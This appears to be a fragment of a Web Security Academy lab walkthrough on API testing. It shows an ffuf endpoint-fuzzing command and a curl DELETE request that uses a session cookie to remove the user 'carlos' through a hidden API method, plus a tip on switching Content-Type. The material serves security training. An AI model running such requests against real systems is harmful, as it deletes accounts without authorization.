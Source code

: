 ____

```bash
ffuf -w content.txt -u https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/FUZZ
```

```bash
curl https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/api/user/carlos -X DELETE -H  
'Cookie: session=wBQWoe4x6dke6hWYkh4WO0EQ9Hs2fXSY'
```



____

To change the content type, modify the `Content-Type` header, then reformat the request body accordingly. You can use the Content type converter BApp to automatically convert data submitted within requests between XML and JSON.